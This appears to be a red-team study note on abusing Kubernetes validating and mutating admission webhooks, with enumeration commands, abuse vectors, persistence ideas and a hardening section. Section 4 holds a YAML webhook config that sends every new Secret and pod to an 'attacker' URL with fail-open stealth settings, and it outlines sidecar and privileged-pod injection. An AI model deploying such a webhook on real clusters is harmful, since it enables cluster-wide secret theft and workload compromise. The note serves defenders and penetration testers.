

# 12 - Abusing Validating and Mutating Admission Webhooks

## 1. Executive Summary

Admission webhooks (`ValidatingWebhookConfiguration` / `MutatingWebhookConfiguration`) are cluster-wide objects that **intercept every matching API request** before it's persisted — they see object specs (including **Secrets, SA tokens, pod env**) and, for mutating webhooks, can **rewrite** them. An attacker who can create/edit a webhook config gets a **cluster-wide MITM + injection primitive**: sniff every secret as it's created, inject sidecars/env/hostPath into pods, or set `failurePolicy: Ignore` to silently fail-open. This is also stealthy **persistence** and a way to **neutralize policy engines** (the inverse of [[20 - Admission Controller Bypass]], which is about evading them).

## 2. Resource Overview & Architecture

A webhook config registers an external server (URL or in-cluster Service) that the API server calls on matching operations (`rules`: resources/verbs). **Validating** webhooks can only allow/deny; **Mutating** webhooks return a JSONPatch that *modifies* the object. `failurePolicy` (Fail/Ignore), `sideEffects`, and `namespaceSelector`/`objectSelector` control scope. The webhook server sees the full `AdmissionReview` (object + old object) — i.e. secret data in cleartext.

## 3. Enumeration

```bash
kubectl get validatingwebhookconfigurations -o yaml
kubectl get mutatingwebhookconfigurations -o yaml
kubectl auth can-i create mutatingwebhookconfigurations
kubectl auth can-i update validatingwebhookconfigurations
# policy engines populate these (kyverno-*, gatekeeper-*) → see note 14
```

## 4. Privilege Escalation / Abuse Vectors

- **Secret/token sniffing (MITM)** — register a webhook matching `secrets`/`serviceaccounts`/`pods` create+update pointing at your server; every matching object (incl. Secret `data`) is POSTed to you → exfil all secrets cluster-wide as they're created.
  ```yaml
  webhooks:
  - name: x.attacker
    rules: [{operations: ["CREATE","UPDATE"], apiGroups:[""], resources:["secrets","pods"]}]
    clientConfig: { url: "https://attacker/intercept" }
    failurePolicy: Ignore        # fail-open so cluster doesn't break (stealth)
    sideEffects: NoneOnDryRun
  ```
- **Mutating injection** — return a JSONPatch adding a malicious **initContainer/sidecar**, mounting `hostPath: /`, adding `privileged: true`, or injecting attacker env/imagePullSecrets into pods → code exec / node escape on workloads you don't directly control.
- **Disable security controls** — edit the policy engine's own webhook (`failurePolicy: Ignore` or narrow `rules`) → bypass OPA/Kyverno cluster-wide ([[14 - Policy Engine Abuse OPA Gatekeeper and Kyverno]]).
- **Denial / tamper** — validating webhook that denies legitimate ops (DoS) — report, don't run on prod.

## 5. Mermaid Attack Flow



## 6. Persistence
- Long-lived webhook silently exfiltrating every new secret/token (survives pod restarts; not in any pod).
- Mutating webhook that re-injects a backdoor sidecar into all new pods.

## 7. Post-Exploitation / Data Access
- Every Secret/SA token created cluster-wide → cluster-admin + cloud creds.
- Arbitrary pod modification → workload compromise + node escape.

## 8. Defense & Hardening
1. Lock `*.admissionregistration.k8s.io` (create/update on webhook configs) to cluster admins only — it's a cluster-wide MITM primitive.
2. Use a policy engine to restrict webhook creation; prefer `failurePolicy: Fail` for security webhooks (no silent bypass); pin in-cluster `clientConfig.service` + caBundle (no external URLs).
3. Alert on webhook config create/update, external `clientConfig.url`, broad `rules` matching secrets/pods; audit existing webhooks regularly.

## 9. Related Notes
- Evasion counterpart: **[[20 - Admission Controller Bypass]]** (I-38). Policy engines: **[[14 - Policy Engine Abuse OPA Gatekeeper and Kyverno]]**.
- Resulting secrets: **[[09 - Secrets Extraction from etcd]]** context; RBAC to get here: **[[04 - RBAC Exploitation and Privilege Escalation in K8s]]**.

## 10. Tools
`kubectl`, custom webhook server (Go/Python), `peirates`, `kubectl-who-can`, `rbac-police`.
